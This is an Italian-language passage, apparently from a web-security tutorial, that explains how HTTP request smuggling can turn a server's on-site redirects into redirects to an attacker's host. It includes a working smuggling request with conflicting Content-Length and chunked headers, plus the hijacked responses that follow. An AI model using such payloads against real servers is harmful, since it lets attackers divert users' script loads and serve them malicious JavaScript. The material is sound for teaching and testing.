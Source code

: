 ### Sfruttare i reindirizzamenti in loco con HTTP Request Smuggling <a href="#exploiting-on-site-redirects-with-http-request-smuggling" id="exploiting-on-site-redirects-with-http-request-smuggling"></a>

Le applicazioni spesso reindirizzano da un URL a un altro utilizzando il nome host dall'intestazione `Host` nell'URL di reindirizzamento. Questo è comune con server web come Apache e IIS. Ad esempio, richiedere una cartella senza una barra finale risulta in un reindirizzamento per includere la barra:
```
GET /home HTTP/1.1
Host: normal-website.com
```
Risultati in:
```
HTTP/1.1 301 Moved Permanently
Location: https://normal-website.com/home/
```
Sebbene apparentemente innocuo, questo comportamento può essere manipolato utilizzando HTTP request smuggling per reindirizzare gli utenti a un sito esterno. Ad esempio:
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 54
Connection: keep-alive
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker-website.com
Foo: X
```
Questa richiesta di smuggling potrebbe causare la reindirizzazione della prossima richiesta utente elaborata a un sito web controllato dall'attaccante:
```
GET /home HTTP/1.1
Host: attacker-website.com
Foo: XGET /scripts/include.js HTTP/1.1
Host: vulnerable-website.com
```
Risultati in:
```
HTTP/1.1 301 Moved Permanently
Location: https://attacker-website.com/home/
```
In questo scenario, la richiesta di un utente per un file JavaScript viene dirottata. L'attaccante può potenzialmente compromettere l'utente servendo JavaScript malevolo in risposta.

### Sfruttare il Web Cache Poisoning tramite HTTP Request Smuggling <a href="#exploiting-web-cache-poisoning-via-http-request-smuggling" id="exploiting-web-cache-poisoning-via-http-request-smuggling"></a>
